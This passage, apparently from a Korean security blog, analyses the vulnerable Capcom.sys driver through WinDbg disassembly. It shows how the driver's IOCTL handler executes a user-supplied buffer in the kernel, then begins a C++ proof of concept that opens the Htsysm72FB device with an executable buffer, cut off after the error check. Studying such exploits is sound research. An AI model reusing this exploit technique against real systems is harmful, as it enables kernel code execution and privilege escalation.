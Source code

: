 ```
fffff803`24040524 48894c2408      mov     qword ptr [rsp+8],rcx
fffff803`24040529 4883ec48        sub     rsp,48h
fffff803`2404052d 488b442450      mov     rax,qword ptr [rsp+50h]
fffff803`24040532 488b4c2450      mov     rcx,qword ptr [rsp+50h]
fffff803`24040537 483948f8        cmp     qword ptr [rax-8],rcx
fffff803`2404053b 7404            je      Capcom+0x541 (fffff803`24040541)	; 점프
...
fffff803`24040541 488b442450      mov     rax,qword ptr [rsp+50h]	; inBuffer 주소
fffff803`24040546 4889442428      mov     qword ptr [rsp+28h],rax ; [rsp+28] = &inBuffer
fffff803`2404054b 488b05c6fdffff  mov     rax,qword ptr [Capcom+0x318 (fffff803`24040318)] ; MmGetSystemRoutineAddress
fffff803`24040552 4889442430      mov     qword ptr [rsp+30h],rax
fffff803`24040557 48c744242000000000 mov   qword ptr [rsp+20h],0
fffff803`24040560 488d0521020000  lea     rax,[Capcom+0x788 (fffff803`24040788)]
fffff803`24040567 488d4c2420      lea     rcx,[rsp+20h]
fffff803`2404056c ffd0            call    rax	; blahblah function
fffff803`2404056e 488b4c2430      mov     rcx,qword ptr [rsp+30h]
fffff803`24040573 ff542428        call    qword ptr [rsp+28h]	; Bomb!!!
fffff803`24040577 488d0522020000  lea     rax,[Capcom+0x7a0 (fffff803`240407a0)]
fffff803`2404057e 488d4c2420      lea     rcx,[rsp+20h]
fffff803`24040583 ffd0            call    rax
fffff803`24040585 b801000000      mov     eax,1
fffff803`2404058a 4883c448        add     rsp,48h
fffff803`2404058e c3              ret
```

드디어 다왔다; 자 디버거로 해당 위치까지 잘 따라오면 `RAX`에는 `inBuffer`의 주소 값이 들어가있다. 그리고 이 값을 `rsp+28` 안에 저장한다. 즉 어떠한 함수의 6번째 파라미터로 전달하려고 저장한다고 볼 수 있을 것 같다. 이 어떠한 함수는 `sub_10788` 함수로 난해한 명령으로 되어있으며 스택을 사용하지 않는다.

이 함수를 지나고 다음 호출되는 `CALL qword ptr [rsp+28h]` 부분에서 블루스크린이 짠하고 등장하게 된다.
`inBuffer` 를 호출하게 됨으로써 현재 본인의 코드에는 아무 값도 없으므로 크래시가 나게 되는 것이다.

```
00000244`c9c40008 0000            add     byte ptr [rax],al ds:002b:00000000`00070678=??
00000244`c9c4000a 0000            add     byte ptr [rax],al
00000244`c9c4000c 0000            add     byte ptr [rax],al
00000244`c9c4000e 0000            add     byte ptr [rax],al
00000244`c9c40010 0000            add     byte ptr [rax],al
00000244`c9c40012 0000            add     byte ptr [rax],al
00000244`c9c40014 0000            add     byte ptr [rax],al
00000244`c9c40016 0000            add     byte ptr [rax],al
00000244`c9c40018 0000            add     byte ptr [rax],al
```

말한 것과 같이 `inBuffer`값으로 실행 흐름이 바뀐 것을 볼 수 있다.

그럼 이제 여기에 코드를 넣고 어떻게 되는지 확인해본다.

```c++
#include <stdio.h>
#include <Windows.h>

int main()
{
	const wchar_t* deviceName = L"\\\\.\\Htsysm72FB";

	const DWORD dwIoCtlCode = 0xAA013044;
	HANDLE driver = CreateFile(deviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 48, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	*(PULONG_PTR)inBuffer = (ULONG_PTR)(inBuffer + 8);
	
	if (driver == INVALID_HANDLE_VALUE)
	{
		fprintf(stderr, "Unable to access device driver\n");
		system("pause");
```